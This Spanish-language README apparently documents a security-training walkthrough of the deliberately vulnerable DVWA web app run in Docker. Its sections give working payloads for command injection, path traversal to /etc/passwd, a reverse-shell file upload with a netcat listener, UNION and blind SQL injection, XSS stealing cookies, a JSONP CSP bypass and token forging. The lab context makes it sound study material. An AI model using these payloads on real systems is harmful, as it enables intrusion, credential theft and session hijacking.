# **Damn Vulnerable Web Application (DVWA) con MySQL en Docker**

Este proyecto despliega **DVWA** junto con **MySQL 5.7** en contenedores Docker, proporcionando un entorno seguro para practicar pruebas de seguridad web.


# **Índice**

- [1. Instalación y Puesta en Marcha](#1-instalación-y-puesta-en-marcha)
- [2. Fuerza Bruta en DVWA](#2-fuerza-bruta-en-dvwa)
- [3. Inyección de Comandos en DVWA](#3-inyección-de-comandos-en-dvwa)
- [4. Path Traversal en DVWA](#4-path-traversal-en-dvwa)
- [5. Carga de Archivos - DVWA](#5-carga-de-archivos---dvwa)
- [6. Inyección SQL en DVWA](#6-inyección-sql-en-dvwa)
- [7. Inyección SQL Ciega (Blind SQL Injection) en DVWA](#7-inyección-sql-ciega-blind-sql-injection-en-dvwa)
- [8. Identificadores de Sesión Débiles (Weak Session IDs) en DVWA](#8-identificadores-de-sesión-débiles-weak-session-ids-en-dvwa)
- [9. DOM Based Cross Site Scripting (XSS) en DVWA](#9-dom-based-cross-site-scripting-xss-en-dvwa)
- [10. Cross Site Scripting Reflejado (Reflected XSS) en DVWA](#10-cross-site-scripting-reflejado-reflected-xss-en-dvwa)
- [11. Cross Site Scripting (Stored XSS) en DVWA](#11-cross-site-scripting-stored-xss-en-dvwa)
- [12. Content Security Policy (CSP) Bypass en DVWA](#12-content-security-policy-csp-bypass-en-dvwa)
- [13. JavaScript Attacks en DVWA](#13-javascript-attacks-en-dvwa)


---

## **1. Instalación y Puesta en Marcha**

### **1.1 Descarga de Imágenes Docker**
Ejecutar los siguientes comandos para descargar las imágenes necesarias:
```bash
docker pull mysql:5.7
docker pull ghcr.io/digininja/dvwa:cc86a34
```

### **1.2 Configuración de MySQL**
Levantar un contenedor de MySQL con credenciales preconfiguradas:
```bash
docker run -d --name dvwa-mysql \
  -e MYSQL_ROOT_PASSWORD=root \
  -e MYSQL_USER=dvwa \
  -e MYSQL_PASSWORD=p@ssw0rd \
  -e MYSQL_DATABASE=dvwa \
  mysql:5.7
```

### **1.3 Levantar DVWA**
Iniciar el contenedor de DVWA y conectarlo con MySQL:
```bash
docker run -d --name dvwa --link dvwa-mysql:mysql -p 80:80 \
  -e DB_SERVER=mysql ghcr.io/digininja/dvwa:cc86a34
```

### **1.4 Acceso a la Aplicación**
Abrir un navegador y acceder a la URL:
```
http://localhost/login.php
```

### **1.5 Configuración Inicial**
1. Hacer clic en **"Create / Reset Database"** para inicializar la base de datos.
2. Iniciar sesión con las siguientes credenciales:
   - **Usuario:** `admin`
   - **Contraseña:** `password`

🚀 ¡DVWA está listo para realizar pruebas de seguridad! 🛡️

### **Captura de la Configuración**
A continuación, se muestra una imagen con la configuración y ejecución de los contenedores:


---

# **2. Fuerza Bruta en DVWA**

## **2.1 Descripción**
Se ha desarrollado un script en PHP, llamado **`dvwa_bruteforce.php`**, que automatiza un ataque de fuerza bruta contra la autenticación de DVWA en el nivel de seguridad **alto**.

## **2.2 Ubicación del Script**
El archivo se encuentra en: [assets/dvwa_bruteforce.php](assets/dvwa_bruteforce.php)


## **2.3 Instalación y Ejecución**
1. Asignar permisos de ejecución al script:
   ```bash
   chmod +x assets/dvwa_bruteforce.php
   ```
2. Ejecutar el ataque utilizando el diccionario `rockyou.txt`:
   ```bash
   php assets/dvwa_bruteforce.php rockyou.txt
   ```

## **2.4 Funcionamiento del Script**
✔ Se conecta con DVWA y extrae el **token CSRF** dinámicamente.
✔ Prueba múltiples combinaciones de credenciales utilizando la lista de contraseñas `rockyou.txt`.
✔ Detecta automáticamente la contraseña correcta y la muestra en pantalla.

## **2.5 Requisitos**
- **PHP instalado en el sistema**
- **DVWA en ejecución** con nivel de seguridad `high`
- **Archivo `rockyou.txt`** como diccionario de contraseñas

## **2.6 Capturas de Pantalla**
### **Cookies en el Navegador**


### **Archivos en el Directorio**


### **Ejecución del Script**


---

# **3. Inyección de Comandos en DVWA**

## **3.1 Descripción**
DVWA incluye una funcionalidad para hacer `ping` a dispositivos, pero la entrada del usuario se concatena directamente en el comando, permitiendo la ejecución arbitraria de comandos del sistema.

## **3.2 Explotación de la Vulnerabilidad**
Podemos ejecutar comandos arbitrarios usando `|` (pipe). Por ejemplo:
```bash
127.0.0.1 | ls
```
✅ **Salida esperada:**
```
index.php
config.php
README.md
```

🔹 **Este ataque funciona en todos los niveles de seguridad:** bajo, medio y alto.

## **3.3 Capturas de Pantalla**
### **Inyección de Comandos Exitosa**


### **Ruta de Ejecución en el Servidor**
📌 La ejecución del ataque nos ha permitido conocer la ruta exacta del script vulnerable en el servidor.


---

# **4. Path Traversal en DVWA**

## **4.1 Descripción**
En el nivel de seguridad **alto**, existe una restricción que exige que el nombre del archivo comience con `file`.

### **4.2 Bypass de Restricción**
Podemos eludir esta restricción modificando la URL en el navegador e ingresando el siguiente payload:
```
http://127.0.0.1/vulnerabilities/fi/?page=file/../../../../../../etc/passwd
```

Esto permite leer archivos sensibles del sistema a través de **Path Traversal**.

## **4.3 Captura de Ejecución**
La siguiente imagen muestra la explotación exitosa del ataque:


---
# **5. Carga de Archivos - DVWA**

## **5.1 Descripción**
DVWA en nivel de seguridad **alto** presenta restricciones para la subida de archivos maliciosos, como la validación del tipo MIME y la extensión. Sin embargo, podemos evadir estos controles utilizando técnicas como **doble extensión y manipulación de cabecera de archivos**.

## **5.2 Subida de Archivo Malicioso**
Para obtener una **shell inversa**, subimos un archivo PHP con una doble extensión (`.php.png`) y un encabezado falso `GIF98;` para que pase los filtros.

📌 **Archivo utilizado:** [assets/rev.php.png](assets/rev.php.png)

El archivo fue subido exitosamente a través de la vulnerabilidad de **File Upload** en DVWA.

### **Captura de la Subida**


## **5.3 Ejecución a Través de File Inclusion**
Como el archivo `.php.png` no puede ejecutarse directamente, utilizamos **File Inclusion** para forzar su ejecución:
```
http://192.168.1.158/vulnerabilities/fi/?page=file/../../../hackable/uploads/rev.php.png
```

### **Captura de la Inclusión del Archivo**


## **5.4 Conexión con Netcat**
Desde Kali Linux, se configuró un **oyente Netcat** con:
```bash
nc -lvnp 4444
```
Al ejecutar el archivo, se obtuvo acceso al servidor con usuario `www-data`.

### **Captura de la Shell Inversa**


---

# **6. Inyección SQL en DVWA**

## **6.1 Descripción**
DVWA en nivel de seguridad **alto** sigue siendo vulnerable a **inyección SQL**, aunque con más restricciones. Aprovecharemos esta vulnerabilidad para extraer usuarios y contraseñas almacenadas en la base de datos.

## **6.2 Explotación de la Vulnerabilidad**
En la sección de **SQL Injection**, ingresamos la siguiente carga útil en el campo de **User ID**:
```
' UNION SELECT user, password FROM users#
```

### **Explicación de la Carga Útil**
- `UNION SELECT` → Nos permite unir nuestra consulta con otra para obtener información adicional.
- `user, password FROM users` → Extrae los nombres de usuario y sus hashes de contraseña de la tabla `users`.
- `#` → Comenta el resto de la consulta original para evitar errores.

### **Captura de Ejecución**
La siguiente imagen muestra los resultados obtenidos tras la ejecución de la inyección SQL:


## **6.3 Descifrado de Contraseñas**
Las contraseñas obtenidas están almacenadas en formato hash (MD5). Para descifrarlas, podemos utilizar herramientas en línea o locales.

### **CrackStation (Online)**
1. Acceder a [https://crackstation.net/](https://crackstation.net/).
2. Ingresar los hashes obtenidos y verificar si están en su base de datos.

### **Captura de Descifrado**
La siguiente imagen muestra el descifrado exitoso del hash `5f4dcc3b5aa765d61d8327deb882cf99`, revelando que la contraseña es `password`:


## **6.4 Prevención**
Para evitar este tipo de ataques, se recomienda:
✔ **Usar consultas preparadas (Prepared Statements)**.
✔ **No exponer información sensible en los errores de la base de datos**.
✔ **Implementar validación estricta de entrada de datos**.
✔ **Utilizar métodos de hashing seguros y con sal (bcrypt, Argon2)**.

---

# **7. Inyección SQL Ciega (Blind SQL Injection) en DVWA**

## **7.1 Descripción**
DVWA en nivel de seguridad **alto** sigue siendo vulnerable a **inyección SQL ciega**, aunque implementa protecciones más estrictas. Se ha aprovechado esta vulnerabilidad para extraer la versión del motor de base de datos mediante fuerza bruta carácter por carácter.

---

## **7.2 Explotación de la Vulnerabilidad**

En la sección de **SQL Injection (Blind)**, se configuró manualmente una cookie vulnerable con la siguiente carga útil:

```
1' and sleep(5)#
```

✅ Al establecer esta cookie, la respuesta del servidor tarda aproximadamente **5 segundos**, confirmando que la inyección es posible.

---

## **7.3 Script Utilizado**

Para automatizar la extracción de la versión de la base de datos, se desarrolló un script en Python llamado **`blind_sqli_high.py`**, ubicado en la carpeta `assets/`.

El contenido del script se encuentra aquí --> [assets/blind_sqli_high.py](assets/blind_sqli_high.py) 

---

## **7.4 Resultado Obtenido**

Tras ejecutar el script, se logró detectar la longitud y extraer completamente la versión de la base de datos:

```
[*] Detectando longitud de la versión...
✅ Longitud detectada: 6
[*] Extrayendo versión de la base de datos...
[1] 5 [2] . [3] 7 [4] . [5] 4 [6] 4
✅ Versión extraída: 5.7.44
```

---

## **7.5 Capturas de Pantalla**

### **Inyección de Payload en Cookie**
📸 

### **Ejecución del Script y Extracción Exitosa**
📸 

---

# **8. Identificadores de Sesión Débiles (Weak Session IDs) en DVWA**

## **8.1 Descripción**
DVWA en niveles de seguridad **bajo** y **medio** presenta vulnerabilidades en la generación de **identificadores de sesión (Session IDs)**, permitiendo su predicción y posible secuestro de sesiones por parte de un atacante.

---

## **8.2 Explotación de la Vulnerabilidad**

En la sección de **Weak Session IDs**, se analizaron las cookies generadas tras pulsar el botón **Generate**, observándose el siguiente comportamiento:

- **Nivel Bajo:**  
  El valor de la cookie `dvwaSession` es completamente **predecible**, empezando en `0` y aumentando de uno en uno (`0`, `1`, `2`, `3`, etc.) con cada nueva generación.

  ✅ **Cómo se podría explotar:**  
  Un atacante podría ir probando secuencialmente diferentes valores (`0`, `1`, `2`, etc.) hasta encontrar una sesión activa perteneciente a otro usuario, logrando así suplantarlo.

- **Nivel Medio:**  
  El valor de `dvwaSession` se genera utilizando la función **`time()`** de PHP, que proporciona un valor basado en el tiempo actual en segundos.

  ✅ **Cómo se podría explotar:**  
  Si un atacante conoce el rango de tiempo aproximado en el que la víctima inició sesión, puede calcular y probar varios valores de `dvwaSession` cercanos para intentar secuestrar su sesión.

---

## **8.3 Resultado Obtenido**

Tras generar varias sesiones y examinar sus cookies, se pudo confirmar la predictibilidad de los identificadores en los niveles **low** y **medium**:

- **Low:** ID incremental sencillo y totalmente predecible.
- **Medium:** ID basado en la hora, más difícil pero no imposible de adivinar si se conoce el momento aproximado de creación.

---

## **8.4 Capturas de Pantalla**

### **Cookie Predecible (Nivel Bajo)**
📸 

### **Cookie Basada en Timestamp (Nivel Medio)**
📸 
---

# **9. DOM Based Cross Site Scripting (XSS) en DVWA**

## **9.1 Descripción**
En DVWA, la vulnerabilidad de **DOM Based XSS** se debe a que los datos del usuario se manipulan en el cliente (navegador) en vez de en el servidor.  
En el nivel de seguridad **alto**, aunque el servidor utiliza una **lista blanca** para validar entradas, es posible inyectar código malicioso aprovechando que **todo lo que está después del `#` en la URL no es enviado al servidor**, pero sí es procesado por el navegador.

---

## **9.2 Explotación de la Vulnerabilidad**

En la sección de **DOM Based Cross Site Scripting (XSS)**, se utilizó el siguiente payload para explotar la vulnerabilidad:

```
#<script>alert(document.cookie);</script>
```

✅ Al añadir este payload después del parámetro `default` en la URL, logramos ejecutar JavaScript arbitrario en el navegador.

✅ El ataque se basa en que el navegador interpreta el contenido después del `#` como parte del DOM y no lo envía al servidor, evadiendo así las protecciones de la whitelist.

---

## **9.3 Resultado Obtenido**

Al acceder a la siguiente URL:

```
http://192.168.1.158/vulnerabilities/xss_d/?default=Spanish#<script>alert(document.cookie);</script>
```

Se muestra un **pop-up de alerta** que revela el valor actual de las cookies de sesión.

---

## **9.4 Capturas de Pantalla**

### **Payload Inyectado en la URL**
📸 

### **Ejecución Exitosa del Payload**
📸 

---

# **10. Cross Site Scripting Reflejado (Reflected XSS) en DVWA**

## **10.1 Descripción**
En **DVWA** bajo nivel de seguridad **alto**, sigue siendo vulnerable a **Cross Site Scripting Reflejado (Reflected XSS)**. El campo de **name** refleja directamente el valor introducido sin una validación adecuada, permitiendo la ejecución de código JavaScript malicioso.

---

## **10.2 Explotación de la Vulnerabilidad**

En la sección de **Reflected XSS**, se ha utilizado el siguiente **payload** para explotar la vulnerabilidad:

```

```

✅ Al insertar esta carga útil en el campo de **"What's your name?"**, conseguimos ejecutar código JavaScript y hacer aparecer una alerta con las cookies del navegador.

### **Explicación**
- ``: Intenta cargar una imagen no válida.
- `onerror="alert(document.cookie)"`: Al fallar la carga de la imagen, se ejecuta el evento `onerror`, que lanza una alerta con las cookies.

Este ataque funciona en **todos los niveles de seguridad**: bajo, medio y alto.

---

## **10.3 Capturas de Pantalla**

### **Inyección de Payload**
📸 

### **Ejecución del Payload y Visualización de la Cookie**
📸 

---


# **11. Cross Site Scripting (Stored XSS) en DVWA**

## **11.1 Descripción**
DVWA en su sección de **Stored XSS** permite almacenar cargas maliciosas que luego son ejecutadas cuando otros usuarios visualizan la página afectada.  
Esto puede derivar en robo de cookies, secuestro de sesión y otros ataques contra usuarios legítimos.

Se ha comprobado la vulnerabilidad en los niveles de seguridad **bajo** y **medio**.

---

## **11.2 Explotación de la Vulnerabilidad**

### **Nivel de Seguridad: Bajo**
En el nivel bajo, DVWA permite insertar directamente código malicioso en el campo **Message** del formulario de comentarios.

- **Payload utilizado:**
```html

```

✅ Al enviar el formulario, el script es almacenado y se ejecuta automáticamente al cargar la página, mostrando un **alert** con las cookies de sesión.

---

### **Nivel de Seguridad: Medio**
En el nivel medio, se impone una restricción de **longitud máxima** en el campo de entrada, pero esta protección puede ser **fácilmente evadida**.

**Evasión realizada:**
- Se modificó dinámicamente el atributo `maxlength` del campo de entrada desde **DevTools** del navegador.
- Se cambió el payload usando variaciones de mayúsculas/minúsculas para evitar filtros.

- **Payload utilizado:**
```html
<sCrIpT>alert(document.cookie);</ScRiPt>
```

✅ Nuevamente, el código fue almacenado y ejecutado correctamente.

---

## **11.3 Capturas de Pantalla**

### **Payload inyectado en Nivel Bajo**
📸 

---

### **Almacenamiento y ejecución del Payload (Nivel Bajo)**
📸 

---

### **Inyección de Payload Evadiendo Filtros (Nivel Medio)**
📸 

---

### **Ejecución Exitosa del Payload (Nivel Medio)**
📸 

---

# **12. Content Security Policy (CSP) Bypass en DVWA**

## **12.1 Descripción**
En el nivel de seguridad **alto** de DVWA, la aplicación implementa una política de seguridad de contenido (**CSP**) para restringir la ejecución de código JavaScript no autorizado. No obstante, se ha identificado una vulnerabilidad que permite eludir esta protección manipulando el parámetro `callback` en una solicitud JSONP.

---

## **12.2 Explotación de la Vulnerabilidad**

La aplicación realiza una solicitud a la siguiente ruta para cargar código adicional:
```
/vulnerabilities/csp/source/jsonp.php?callback=solveSum
```
Mediante el uso de un proxy de interceptación, como **Burp Suite**, se capturó esta solicitud HTTP y se modificó el valor del parámetro `callback`, reemplazándolo por una función maliciosa:
```
callback=alert(document.cookie)
```
De esta forma, al procesar la respuesta JSONP, el navegador ejecuta el código JavaScript arbitrario proporcionado.

---

## **12.3 Herramienta Utilizada**

Para la interceptación y modificación de la solicitud, se utilizó **Burp Suite** en modo proxy, permitiendo alterar el tráfico antes de que fuera procesado por el servidor.

---

## **12.4 Resultado Obtenido**

Tras modificar la solicitud, el navegador ejecutó correctamente el código inyectado, mostrando una alerta con el valor de la cookie de sesión:
```
PHPSESSID=b83d2feb1a6cf85aa0710bb1b08837f3; security=high
```

Este resultado confirma que es posible eludir la política CSP configurada.

---

## **12.5 Evidencias**

### **Interceptación y Modificación de la Solicitud**
📸 

### **Ejecución del Código Inyectado**
📸 

---

# **13. JavaScript Attacks en DVWA**

## **13.1 Descripción**
En esta sección de DVWA, se explota la manipulación del parámetro `phrase` y su correspondiente `token` para conseguir validar la acción requerida. El nivel de seguridad incrementa la complejidad de la generación del token.

---

## **13.2 Explotación de la Vulnerabilidad**

### **Nivel de Seguridad: Bajo**

En este nivel, para que la aplicación acepte la entrada, es necesario enviar:
- La `phrase` igual a `success`
- El `token` generado como `md5(rot13(phrase))`

El proceso seguido fue el siguiente:

1. Aplicar **ROT13** a la palabra `success`, obteniendo:
   ```
   fhpprff
   ```
2. Calcular el **hash MD5** de `fhpprff`, resultando en:
   ```
   38581812b435834ebf84ebcc2c6424d6
   ```
3. Finalmente, enviar ambos parámetros:
   ```
   token=38581812b435834ebf84ebcc2c6424d6&phrase=success
   ```

✅ La aplicación aceptó la respuesta, validando correctamente la manipulación de los valores.

---

### **Nivel de Seguridad: Medio**

En este nivel, la generación del token cambia ligeramente:
- Se construye como `"XX"` + reverso de la frase (`success`) + `"XX"`

El procedimiento realizado fue:

1. Invertir la palabra `success`, obteniendo:
   ```
   sseccus
   ```
2. Añadir el prefijo y sufijo `"XX"`, resultando en:
   ```
   XXsseccusXX
   ```
3. Enviar los siguientes parámetros:
   ```
   token=XXsseccusXX&phrase=success
   ```

✅ La validación fue exitosa, demostrando que se logró ajustar el valor del token según la lógica implementada para el nivel medio.

---

## **13.3 Resultado Obtenido**

- En **nivel bajo**, se logró eludir la verificación aplicando ROT13 y MD5.
- En **nivel medio**, se consiguió construir el token siguiendo el patrón de inversión y añadido de prefijos/sufijos.

---


